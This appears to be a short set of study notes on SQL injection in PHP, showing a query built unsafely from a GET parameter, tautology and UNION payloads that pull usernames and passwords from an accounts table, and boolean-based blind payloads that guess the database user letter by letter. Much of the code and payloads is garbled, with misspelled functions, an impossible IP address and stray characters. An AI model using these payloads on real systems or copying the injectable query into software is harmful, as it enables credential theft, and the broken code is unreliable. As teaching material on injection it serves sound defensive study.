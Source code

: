 Sample static php behind the MYSQL data
```php
$dbhostname = '198.293.5.2';
$dbuser = 'admin';
$dbpwd = 'QWERTY';
$dbname = 'database';

$$connection = mysqli_connect($dbhostname,$dbuser,$dbpwd,$dbname);
$query = "SELECT Name, Decsription FROM Products WHERE ID = '3' UNION SELECT Username,Passwords FROM Accounts;";

$results = mysqli_query($connection, $query);
display_results($results);

```

dynamic php
```php
$id = $_GET['id'];

$connection = mysqli_connnect($dbhostname, $dbuser, $dbpassword, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='$id'; ";

$results = mysqli_query($connection ,$query);
display_results($results);

```

Dynamic queries can be injected eg if for above id =' ==' OR 'a'='a== '
the select statement returns all name and descriptions from products where if is TRUE
(ie all the name and dscrps from products are printed)

OR a UNION command to exploit
id = ' =='UNION SELECT Username, Password FROM Accounts Where 'a'= 'a ==';
Possble injections points
GET,POST , HEADERS (User-Agent, Cookie, Accept etc)


Use BURPSUITE to test all possible injection points

## Bolean based injection
Eg Image only appearing if statement is TRUE, if FALSE a error shows
using user() and subtring() to test first letter of username rinse and repeat for all alphanumerics to find the full user name
```sql
select subtring(user(),1,1) = 'a'
```
^ slow bruteforcing technique
example payload :
' or subtr(user(), 1, 1) = 'a
' or subtr(user(), 1, 1) = 'b 
' or subtr(user(), 2, 1) = 'a etc etc

## UNION based injection
